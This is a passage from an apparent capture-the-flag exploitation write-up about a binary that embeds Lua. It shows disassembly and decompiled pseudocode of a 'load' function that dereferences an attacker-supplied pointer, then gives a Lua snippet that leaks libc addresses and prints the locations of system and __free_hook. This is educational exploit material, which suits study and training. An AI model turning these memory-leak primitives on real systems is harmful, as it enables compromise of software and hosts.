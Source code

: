 ```
.bss:0000000000231050 ; struc_1 struct
.bss:0000000000231050 struct          struc_1 <?>             ; DATA XREF: sub_3084+32↑o
```

```
00000000 struc_1         struc ; (sizeof=0x14)
00000000 field_0         dq ?                                 ; decription
00000008 field_8         dq ?                                 ; options
00000010 field_10        dd ?                                 ; count
00000014 struc_1         ends
```

So, here pointer `struct` are pushed into Lua program stack as a raw integer type and then function `load` is called.
Lets, step into that function. Bellow is its pseudocode:
```C
__int64 __fastcall sub_42B5(__int64 L)  // load
{
  struc_1 *x; // [rsp+10h] [rbp-10h]
  __int64 v3; // [rsp+18h] [rbp-8h]

  x = (struc_1 *)sub_3D30(L);
  sub_3DEF(L);
  v3 = sub_3D6D(L);
  if ( v3 )
    x->field_0 = v3;
  sub_3D0A(L, (__int64)x);     // lua_pushinteger
  sub_40A1(L);
  sub_3D0A(L, x->field_8);     // <-- dereference pointer  
  return 2LL;                  // return a pair of values
}
```

First call to `sub_3D30` pops value from Lua stack and treats it as a pointer to `struct`:
```C
__int64 __fastcall sub_3D30(__int64 L)
{
  __int64 ret; // [rsp+18h] [rbp-8h]

  ret = sub_51D0(L, 0xFFFFFFFFLL, 0LL);      // lua_tointeger(L, -1)
  sub_4C40(L, 0xFFFFFFFE);                  // lua_pop(L, -1)
  return ret;
}
```

Last two lines in `load` shows that this function returns a pair of values onto the Lua stack, where the second value 
is a de-referenced pointer from structure. Bingo! Function `last` is available from Lua, it assumes its argument to be 
a pointer to structure, and it returns and de-referenced pointer in structure by offset 0x8.

So, we can leak a pointer from `libc` as follows:
```Lua
_, printf = load({}, printf_plt)
print("[Lua]: printf = " .. hex(printf))
```


[Lua]: printf@plt = 0x56208b430ed0
[Lua]: printf = 0x7fdc9ae87e40
[Lua]: system = 0x7fdc9ae72420
[Lua]: __free_hook = 0x7fdc9b2108e8